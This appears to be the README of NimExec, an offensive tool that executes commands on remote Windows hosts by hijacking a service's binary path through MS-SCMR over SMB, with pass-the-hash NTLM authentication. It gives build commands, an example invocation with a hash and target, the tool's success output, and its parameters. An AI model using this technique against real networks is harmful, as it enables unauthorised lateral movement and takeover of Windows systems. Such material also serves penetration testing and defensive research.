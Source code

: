 # NimExec
Basically, NimExec is a fileless remote command execution tool that uses The Service Control Manager Remote Protocol (MS-SCMR). It changes the binary path of a random or given service run by LocalSystem to execute the given command on the target and restores it later via hand-crafted RPC packets instead of WinAPI calls. It sends these packages over SMB2 and the svcctl named pipe.

NimExec needs an NTLM hash to authenticate to the target machine and then completes this authentication process with the NTLM Authentication method over hand-crafted packages.

Since all required network packages are manually crafted and no operating system-specific functions are used, NimExec can be used in different operating systems by using Nim's cross-compilability support.

This project was inspired by [Julio's SharpNoPSExec](https://github.com/juliourena/SharpNoPSExec) tool. You can think that NimExec is Cross Compilable and built-in Pass the Hash supported version of SharpNoPSExec. Also, I learned the required network packet structures from [Kevin Robertson's Invoke-SMBExec Script](https://github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-SMBExec.ps1).


# Compilation
```
nim c -d:release --gc:markAndSweep -o:NimExec.exe Main.nim
```

The above command uses a different Garbage Collector because the default garbage collector in Nim is throwing some SIGSEGV errors during the service searching process.

Also, you can install the required Nim modules via Nimble with the following command:

```
nimble install ptr_math nimcrypto hostname
```
# Usage
```
test@ubuntu:~/Desktop/NimExec$ ./NimExec -u testuser -d TESTLABS -h 123abcbde966780cef8d9ec24523acac -t 10.200.2.2 -c 'cmd.exe /c "echo test > C:\Users\Public\test.txt"' -v
 
                                                                                             _..._     
                                                                                          .-'_..._''.  
   _..._   .--. __  __   ___         __.....__                          __.....__       .' .'      '.\ 
 .'     '. |__||  |/  `.'   `.   .-''         '.                    .-''         '.    / .'            
.   .-.   ..--.|   .-.  .-.   ' /     .-''"'-.  `.                 /     .-''"'-.  `. . '              
|  '   '  ||  ||  |  |  |  |  |/     /________\   \ ____     _____/     /________\   \| |              
|  |   |  ||  ||  |  |  |  |  ||                  |`.   \  .'    /|                  || |              
|  |   |  ||  ||  |  |  |  |  |\    .-------------'  `.  `'    .' \    .-------------'. '              
|  |   |  ||  ||  |  |  |  |  | \    '-.____...---.    '.    .'    \    '-.____...---. \ '.          . 
|  |   |  ||__||__|  |__|  |__|  `.             .'     .'     `.    `.             .'   '. `._____.-'/ 
|  |   |  |                        `''-...... -'     .'  .'`.   `.    `''-...... -'       `-.______ /  
|  |   |  |                                        .'   /    `.   `.                               `   
'--'   '--'                                       '----'       '----'                                  

                                            @R0h1rr1m          


[+] Connected to 10.200.2.2:445
[+] NTLM Authentication with Hash is succesfull!
[+] Connected to IPC Share of target!
[+] Opened a handle for svcctl pipe!
[+] Bound to the RPC Interface!
[+] RPC Binding is acknowledged!
[+] SCManager handle is obtained!
[+] Number of obtained services: 265
[+] Selected service is LxpSvc
[+] Service: LxpSvc is opened!
[+] Previous Service Path is: C:\Windows\system32\svchost.exe -k netsvcs
[+] Service config is changed!
[!] StartServiceW Return Value: 1053 (ERROR_SERVICE_REQUEST_TIMEOUT)
[+] Service start request is sent!
[+] Service config is restored!
[+] Service handle is closed!
[+] Service Manager handle is closed!
[+] SMB is closed!
[+] Tree is disconnected!
[+] Session logoff!
```

It's tested against Windows 10&11, Windows Server 16&19&22 from Ubuntu 20.04 and Windows 10 machines.
# Command Line Parameters

``` 
    -v | --verbose                          Enable more verbose output.
    -u | --username <Username>              Username for NTLM Authentication.*
    -h | --hash <NTLM Hash>                 NTLM password hash for NTLM Authentication.*
    -t | --target <Target>                  Lateral movement target.*
    -c | --command <Command>                Command to execute.*
    -d | --domain <Domain>                  Domain name for NTLM Authentication.
    -s | --service <Service Name>           Name of the service instead of a random one.
    --help                                  Show the help message.

```

# References

- https://github.com/juliourena/SharpNoPSExec
- https://github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-SMBExec.ps1
- https://winprotocoldoc.blob.core.windows.net/productionwindowsarchives/MS-SCMR/%5bMS-SCMR%5d.pdf
- https://github.com/jborean93/pypsexec/tree/master
- https://www.x86matthew.com/view_post?id=create_svc_rpc
